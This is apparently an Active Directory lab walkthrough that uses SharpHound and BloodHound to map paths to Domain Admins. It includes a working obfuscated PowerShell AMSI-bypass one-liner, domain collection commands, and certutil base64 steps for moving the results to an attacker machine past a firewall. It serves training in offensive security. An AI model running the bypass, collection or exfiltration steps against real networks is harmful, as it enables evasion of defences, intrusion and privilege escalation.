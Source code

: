 # Lab 0 - BloodHound

- [Lab 0 - BloodHound](#lab-0---bloodhound)
  - [Import SharpHound.ps1](#import-sharphoundps1)

----

## Import SharpHound.ps1

First bypass AMSI by using https://amsi.fail.

```
$HQIGDE=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((1125+7951));[Ref].Assembly.GetType("System.Management.Automation.$([Char](65)+[char]([BYTE]0x6D)+[cHAR]([byTE]0x73)+[cHAr](105))Utils").GetField("$([ChAr](97)+[CHaR]([ByTe]0x6D)+[CHAR](177-62)+[ChaR](105))Session", "NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.$([Char](65)+[char]([BYTE]0x6D)+[cHAR]([byTE]0x73)+[cHAr](105))Utils").GetField("$([ChAr](97)+[CHaR]([ByTe]0x6D)+[CHAR](177-62)+[ChaR](105))Context", "NonPublic,Static").SetValue($null, [IntPtr]$HQIGDE);
```

<br/>

Then import `SharpHound.ps1`:

```
cd C:\AD\Tools\BloodHound-master\Ingestors && . .\SharpHound.ps1
```

Run the collection script:

```
Invoke-BloodHound -CollectionMethod All -ExcludeDomainControllers
```

![picture 6](images/020a27a29550314000af6f115ce805404373179764d9b3ff22788575b5e7232d.png)  

<br/>

Upload the output file to the attacker machine. First on the attacker machine, use https://gist.github.com/brianyaucy/5b4e49171a3e913f9382d4cd1cb204e1 to prepare a Python HTTP Server with Upload:

```
PythonHTTPServerWithUpload.py 80
```

However, it looks like firewall is blocking the traffic:

![picture 7](images/63824891fd0afcf3e0b0862e5a0b71b0262bd8975011ce1a7886cc817c0475e9.png)  

<br/>

Instead, use base64 to encode the output file first:

```
certutil -encode .\20210120045733_BloodHound.zip bh.txt
```

![picture 8](images/f24118716ac264844ac56253a75e195e717c1b1c5ae895b919105887b33129d5.png)  

<br/>

Trim the first and the last line of the output, and then copy the words into a new file (`bh.txt`) in the attacker machine. After that, decode the base64 string and output as a ZIP file:

```
cat bh.txt | base64 --decode > bh_result.zip
```

![picture 9](images/1356cc116338ab11deb67fe0a44e99c9d00efe583e2f15b7f15f33466a0f1cda.png)  

<br/>

Start `Neo4j`:

```
neo4j start
```

Then start `bloodhound`:

```
bloodhound
```

<br/>

Use the upload function to upload the zip file:

![picture 10](images/3b5f85bff805887418ed665da2fa033cf4e2106b75414085fc8ac9c4bcc80643.png)  

<br/>

Use the Pre-Built Analytics query `Find Shortest Paths to Domain Admins` to see the path:

![picture 11](images/e2cf487b0f4cb4293df24d66777aa6f46a6f2eebfb6f3fb9ec098c91347065f5.png)  

<br/>

